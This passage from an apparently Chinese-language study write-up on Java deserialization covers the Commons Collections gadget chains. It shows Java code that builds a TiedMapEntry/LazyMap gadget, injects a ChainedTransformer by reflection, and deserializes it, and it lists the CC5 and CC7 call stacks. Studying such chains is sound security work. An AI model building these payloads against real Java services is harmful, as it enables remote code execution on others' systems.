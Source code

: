```java
        TiedMapEntry tiedMapeEntry=new TiedMapEntry(lazymap,"aaa");

        HashMap<Object,Object> map2= new HashMap<>();
        map2.put(tiedMapeEntry,"bbb");
        lazymap.remove("aaa");


        //========================================反射写入chainedTransfomer
        Class c=LazyMap.class;
        Field factoryField=c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazymap,chainedTransformer);
//        serialize(map2);
        unserialize("ser.bin");


    }
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos=new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois=new ObjectInputStream(new FileInputStream(filename));
        Object obj=ois.readObject();
        return obj;
    }
}
```







## CC5与CC7

### 为什么是CC5与CC7

不能只看它的数字，得看他们的内容，两者的调用栈如下

```java
CC5流程：
BadAttributeValueExpException.readObject()->TiedMapEntry.tostring()->LazyMap.get()->ChainedTransformer.transform()->invoketransformer.transform()

CC7流程：
HashTable.readObject()->reconstitutionPut()-AbstractMapDecorator.equals()->AbstractMap.equals()->LazyMap.get()->ChainedTransformer.transform()->invoketransformer.transform()

```

几乎是一样的，不过我们可以多考虑两条入口
